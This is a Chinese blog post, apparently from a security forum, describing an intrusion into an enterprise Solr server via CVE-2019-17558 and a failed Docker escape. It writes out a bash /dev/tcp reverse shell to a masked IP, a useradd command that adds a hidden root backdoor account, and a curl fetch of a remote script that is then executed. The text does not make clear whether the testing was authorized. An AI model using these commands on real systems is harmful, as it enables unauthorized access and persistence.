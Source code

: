 > 0x01 前言

日常日站,在测试某企业的时候扫描器突然发生反应,发现个solr,一个偶然让本不写文章的菜鸡开始写人生中第一篇文章

> 0x02 前戏

看了看solr的版本

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c34b251fd974a7a42010ba3b4c5bb915a494fe4e.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c34b251fd974a7a42010ba3b4c5bb915a494fe4e.png)

正好之前研究过一段时间的solr的一些rce,挨个试试

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-8f0a844121f34a6d5988c1780f72ee1f751b563b.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-8f0a844121f34a6d5988c1780f72ee1f751b563b.jpg)

在一顿操作后,啪的一下很快哈,找到一个`CVE-2019-17558`可以利用

> 0x03 命令执行

尝试使用CVE-2019-17558脚本执行命令

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0130d54ed10054e2c07f03f2e2217c5c68a8e1de.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-0130d54ed10054e2c07f03f2e2217c5c68a8e1de.jpg)

运气爆棚直接就是root权限,我自己都不明白为啥是root

兴奋之极赶紧反弹shell呀

` bash -i >& /dev/tcp/xx.xx.169.148/1234 0>&1 `

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-83632636a08faa20c7eb1c5d5d3f8097c3b454cb.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-83632636a08faa20c7eb1c5d5d3f8097c3b454cb.jpg)

报错500,当时我就懵逼了

看了看自己的vps,发现啥反应都没有,估计是poc不支持,换了好几个都没用,咋办呀

很快哈,看一下ssh开了没,开了的话直接创个用户直接连上去不就行了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-3d34669275eaab2d63099232d647fcc9487f38d7.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-3d34669275eaab2d63099232d647fcc9487f38d7.jpg)

开了,开搞,一句话创建用户设置密码并给root权限

` useradd -p 0`openssl passwd -1 -salt 'abc' cqrdpass` -u 0  -o -g root -G root -s /bin/bash -d /usr/bin/cqrd cqrd `

看一下/etc/passwd

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-7f45e5a959d5a0606f56dc2c4adbcf27ee70a1b7.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-7f45e5a959d5a0606f56dc2c4adbcf27ee70a1b7.jpg)

但是....

连接的时候我直接去世

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5e88abd5d0835b745431fe16466c9e06ea911269.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5e88abd5d0835b745431fe16466c9e06ea911269.jpg)

去查了一下发现是设置过ssh配置文件,这可咋整

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c4beb158d97f2bf7575c4c2518a64e6969ab4e0c.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-c4beb158d97f2bf7575c4c2518a64e6969ab4e0c.jpg)

我决定在试试反弹shell

> 0x04 再次尝试

这次换一种方法,直接在vps上的web下载到本地

` curl xx.xx.169.148/123.sh -o 123.sh `

爆了500

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-103185ca002d640b9a21944dc3879b9641b9963e.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-103185ca002d640b9a21944dc3879b9641b9963e.jpg)

看一下目录

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-71f0571a92f36725b3827f96e2e51bac1b555807.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-71f0571a92f36725b3827f96e2e51bac1b555807.jpg)

ohhhh,上传上去了

然后就是

给权限

执行

` bash ./123.sh `  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4b93de57b7d8ffecaba0f5717fe41301937408be.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4b93de57b7d8ffecaba0f5717fe41301937408be.jpg)  
当我执行第二个命令的时候我又去世了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-af546d68d14bc4d1461f7709eec54f624d8f1cc3.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-af546d68d14bc4d1461f7709eec54f624d8f1cc3.jpg)  
居然是docker,试试`CVE-2019-5736`  
使用go编译  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a261c8ca3ecbfda713b40e053adc67b458ac9790.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a261c8ca3ecbfda713b40e053adc67b458ac9790.jpg)  
发现可以,但是...然后呢?  
![rTNxXT.gif](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7734837f84098871ab1958d989431a9166be81e7.gif)  
仔细一看发现需要别人启动才会触发

![rTUbDO.md.gif](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1ecbefbc3d1e03cf58130a10fb98d1b6cc8a7c7d.gif)

这一等就是一天,发现什么鬼都没弹,还时不时的被别的ip访问而断开

于是我决定,不搞了收工  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bcb760be6d214591003a436e98e01c557c5490b6.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bcb760be6d214591003a436e98e01c557c5490b6.jpg)

> 结语

感觉这一次实战学习到了很多,期间还试过jsp码子上到webapp上面链接,但是发现不行,发现22端口那个ssh有可能是主机的ssh,还是有很多的问题没有解决,我还是需要多多学习,告辞